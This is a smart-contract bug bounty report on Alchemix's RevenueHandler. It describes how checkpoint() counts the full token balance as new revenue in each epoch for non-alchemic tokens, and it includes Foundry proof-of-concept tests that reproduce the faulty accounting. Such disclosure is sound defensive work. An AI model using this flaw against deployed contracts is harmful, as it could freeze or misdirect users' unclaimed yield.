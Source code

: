 # 31466 - \[SC - Critical] Wrong reward calculation leads to rewards being...

Submitted on May 20th 2024 at 00:08:35 UTC by @RandomSec for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31466

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:

* Permanent freezing of unclaimed yield

## Description

Hello,

upon running the tests supplied by you and changing them a bit I came across an issue that I couldn't find in the audit but that leads to most likely a high impact. The main reward calculation of `RevenueHandler` happens in `checkPoint()`. If a revenue token has a `poolAdapter` set other than `address(0)`, it is considered an alchemic-token. Then those tokens are `melted`, i.e., as far as I understand, exchanged and then the received value is added to `epochRevenues[currentEpoch][tokenConfig.debtToken]`. However, if it's not an alchemic-token, there is a miscalculation in the assigned rewards. If it is not, following code is executed (the else-clause):

```
// If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
amountReceived = thisBalance;
// Update amount of non-alchemic-token revenue received for this epoch                    
epochRevenues[currentEpoch][token] += amountReceived;
```

However, all it does is applying the current balance to `epochRevenues[currentEpoch][token]`. The problem is, that this will constantly increase `epochRevenues[currentEpoch][token]` as users will not instantly claim all rewards. Additionally, it is wrong to assume that this comment "Update amount of non-alchemic-token revenue received for this epoch" is true because it could be that no rewards are received. This is easily proven by a test you provided already. All I did was to add

```
_jumpOneEpoch();
revenueHandler.checkpoint();
```

in the middle of it. You will see that the test will fail because of "Not enough revenue to claim" because it will now claim the "rewards" of two epochs, i.e., the `epochRevenues[currentEpoch][token]` increased by 2x the contract balance. The difference is clearly visible when considering that rewards added to alchemic-tokens are those funds received via an exchange of tokens (i.e., the amount can also be 0) vs. non-alchemic are simply increased by the token balance at time of `checkpoint()`-execution. This will break the whole reward calculation for non-alchemic tokens.

The fix would be to correctly track rewards for non-alchemic tokens by calculating the difference of actually received tokens vs. balance & claims. I haven't found any variables helpful for such a calculation so it may require rewriting the contract in order to fix this.

Please correct me if I am wrong.

Best RandomSec

(PS: I will add my wallet address later)

## Proof of Concept

```
// PoC 1: Copied & edited from testClaimNonAlchemicRevenue()
function testCustomTestClaimNonAlchemicRevenuePoC() external {
        uint256 revAmt = 1000e18;
        uint256 tokenId = _setupClaimableNonAlchemicRevenue(revAmt, bal);
        uint256 balBefore = IERC20(bal).balanceOf(address(this));

        assertEq(balBefore, 0, "should have no bal before claiming");
    
        // Added:
        _jumpOneEpoch();
        revenueHandler.checkpoint();

        uint256 claimable = revenueHandler.claimable(tokenId, bal);

        revenueHandler.claim(tokenId, bal, address(0), claimable, address(this));

        uint256 balAfter = IERC20(bal).balanceOf(address(this));

        assertEq(balAfter, claimable, "should be equal to amount claimed");
    }
```

PoC 2: More custom, proving claims of multiple accounts are not calculated correctly. In that PoC you see that it says the same amount as reward for all 3 epochs even though no epoch has given any rewards

```
function _initializeVeALCXPositionAs(uint256 lockAmt, address runAs) internal returns (uint256 tokenId) {
        veALCX.checkpoint();
        tokenId = _lockVeALCXAs(lockAmt, runAs);
    }

    function _lockVeALCXAs(uint256 amount, address runAs) internal returns (uint256 tokenId) {
        deal(address(bpt), runAs, amount);
        vm.startPrank(runAs);
        IERC20(bpt).approve(address(veALCX), amount);
        tokenId = veALCX.createLock(amount, MAXTIME, false);
        vm.stopPrank();
    }

    function testCustomClaimNonAlchemicRevenue() external {
        uint256 revAmt = 1000e18;
        uint256 tokenId = _setupClaimableNonAlchemicRevenue(revAmt, bal);

        address alice = address(0xa11ce);
        uint aliceTokenId = _initializeVeALCXPositionAs(10e18, alice);

        uint thisClaimable; uint aliceClaimable; uint epoch;
        uint thisLockedAmount; uint aliceLockedAmount; // Amounts locked by each account
        uint[3] memory epochRevenues;
        uint[3] memory epochs;

        // Testing PoC for 3 epochs
        for(uint i; i < 3; i++) {
            epoch = revenueHandler.currentEpoch();
            epochs[i] = epoch;
            epochRevenues[i] = revenueHandler.epochRevenues(epoch, bal);
            thisClaimable = revenueHandler.claimable(tokenId, bal);
            aliceClaimable = revenueHandler.claimable(aliceTokenId, bal);
            (thisLockedAmount, , , ) = veALCX.locked(tokenId);
            (aliceLockedAmount, , , ) = veALCX.locked(aliceTokenId);
            console.log("EP %s: Alice claimable: %s, vs. this: %s", epoch, aliceTokenId, thisClaimable);
            console.log("Locked this %s, vs alice %s", thisLockedAmount, aliceLockedAmount);

            console.log("Claimable this vs. balance revenueHandler:");
            console.log(revenueHandler.claimable(tokenId, bal));
            console.log(IERC20(bal).balanceOf(address(revenueHandler)));

            _jumpOneEpoch();
            revenueHandler.checkpoint();
        }

        console.log("Epochs: %s, %s & %s", epochs[0], epochs[1], epochs[2]);
        console.log("Epoch revenues: %s, %s & %s", epochRevenues[0], epochRevenues[1], epochRevenues[2]);
    }
```
